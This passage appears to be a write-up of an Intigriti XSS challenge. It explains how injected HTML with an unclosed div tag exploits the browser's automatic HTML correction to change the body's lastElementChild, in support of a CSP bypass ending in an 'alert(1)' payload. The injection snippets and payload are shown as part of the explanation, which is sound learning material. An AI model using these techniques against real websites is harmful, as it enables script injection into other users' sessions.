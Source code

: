 My initial idea was simple. If the beginning of last4 is `'`, then the front will become a string, and combined with `qs`, it can become a valid code, like this: `'xxx)]}';alert(1)`.

The problem is, how to control last4? This depends on another place where HTML injection can be done in the question.

``` html
<div id="html" class="text"><h1 class="light">
here
</div>
<!-- !!! -->
<div class="a">'"</div>
</body>
<div id="container">
    <span>I</span>
    <span id="extra-flicker">N</span>
    <span>T</span>
    <span>I</span>
    <div id="broken">
        <span id="y">G</span>
    </div>
    <span>R</span>
    <div id="broken">
        <span id="y">I</span>
    </div>
    <span>T</span>
    <span>I</span>
</div>
```

The last part of the question's HTML looks like this, and we can control the value of `here`, so we can inject any HTML into it (but it is useless to directly do XSS because of CSP). Under the current situation, the lastElementChild of the body will be container.

So our first challenge is to find a way to change lastElementChild.

## Automatic Correction of HTML

Although it seems that the situation is irreversible and we cannot change the last element, in fact, we can wrap the entire paragraph in a div tag without a closing tag, like this:

``` html
<div id="html" class="text"><h1 class="light">
<!-- 底下是注入的值 -->
</h1> <!-- 關閉前面的 h1 -->
</div> <!-- 關閉 id=html 的 div -->
<div id=intigriti> <!-- 建立一個沒有關閉標籤的 div -->
<div> <!-- 關閉下面那個 div，沒有這個的話上面的 intigriti 就被關閉了 -->
<!-- 上面是注入的值 -->
</div>
<!-- !!! -->
<div class="a">'"</div>
</body>
<div id="container">
    <span>I</span>
    <span id="extra-flicker">N</span>
    <span>T</span>
    <span>I</span>
    <div id="broken">
        <span id="y">G</span>
    </div>
    <span>R</span>
    <div id="broken">
        <span id="y">I</span>
    </div>
    <span>T</span>
```